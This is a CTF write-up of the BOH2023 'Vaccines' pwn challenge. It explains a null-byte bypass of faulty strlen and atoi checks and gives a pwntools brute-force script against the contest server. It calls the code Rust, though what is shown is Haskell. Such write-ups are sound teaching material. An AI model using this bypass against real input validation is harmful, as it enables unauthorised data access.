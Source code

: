 ```yaml
---
title : "Vaccines [Pwn]"
categories: BOH2023
---
```


Pwning faulty implementation of `strlen` and `atoi` functions in Rust.

[src]({{ site.url }}/files/boh2023/vaccines/src){: .btn .btn--info}
[src.hs]({{ site.url }}/files/boh2023/vaccines/src.hs){: .btn .btn--info}

# Going through the program

If you don't know how to read Rust, don't worry, I don't too...

The whole code was quite readable, and we quickly see where the flag is at.

Line 47:
```rust
    let vaccines = [Vaccine x "some random Vaccine" "03/04/2020" | x <- [0..num]] ++ [Vaccine (num+1) flag "03/04/2020"]
```

`num` is a random value from 10 to 100 (exclusive), and our flag is at index `num`.

Looking at the code, this is just another program with menu functions

1. View vaccine: Give Vaccine ID (index), and it will print out the vacine ID, description, date.
2. Edit vaccine: Give Vaccine ID (index), and you can input a new description and date for that vaccine.
3. Exit: ... no explanations needed.

So we just read the vaccine at that index? **WRONG**

```
What do you want to do?
1. View Vaccine
2. Edit Vaccine
3. Exit
1
Enter Vaccine ID:
10
Invalid Vaccine ID
```

There is an error upon inputting any index >= 10. We see the culprit of this annoying error:

```rust
        putStrLn "Enter Vaccine ID: "
        input <- getLine
        if (strlen input == 1 && input !! 0 /= '0') then do
            let id = atoi input
            if (id >= 0 && id < Prelude.length vaccines) then do
                printVaccine $ vaccines !! id
                loop
```

There are two conditions that our input must satisfy:

1. `strlen input == 1`: The length of the string is 1
2. `input !! 0 /= '0'`: The index 0 character is not '0'

One last thing before we go to the solution: our input is passed into `atoi` to convert it from string to integer, before using it as the index to `vaccines`.

# Solution

We see that condition 2 is already satisfied by our inputs, so we look at condition 1.

```rust
strlen :: String -> Int
strlen input = Prelude.length $ Prelude.takeWhile (/= '\0') input
```

We see that `strlen` takes a `String` and returns an `Int`, and it just takes and counts the characters until a `\0` (null byte) is met, which is what we're used to with C strings. But wait...

{% include image.html url="/assets/images/boh2023/vaccines_google.png" description="bamboozled" %}

Which means that, an input of `1\0XXXX...` will be regarded as length 1 even though it really isn't.

```rust
atoi :: String -> Int
atoi input = do
    let input' = Prelude.filter (\x -> x >= '0' && x <= '9') input
    Prelude.read input' :: Int
```

Looking at `atoi`, we see that it just filters out for characters that are `0-9`. So, if we input `1\00`, it will be regarded as having length 1, and has value of integer 10. Similarly, `4\09` is 49 etc.

So, we just write a script to run through the index 10 to 100, and stop when we get the flag.

# Final Script
```python
from pwn import *

DEBUG = False

conn = process("./src") if DEBUG else remote("54.158.139.58", 1237)

def select(ind):
    conn.recvuntil(b"Exit")
    conn.recvline()
    if type(ind) == str:
        ind = ind.encode()
    conn.sendline(ind)

def chooseID(ind):
    conn.recvuntil(b"ID:")
    conn.recvline()
    if type(ind) == str:
        ind = ind.encode()
    conn.sendline(ind)

for i in range(10, 100):
    select("1")

    tens = str(i)[0].encode()
    ones = str(i)[1].encode()
    chooseID(tens + b"\x00" + ones)

    if b"Invalid" in conn.recvline():
        break

    conn.recvuntil(b": ")
    print(conn.recvline(keepends=False))
```
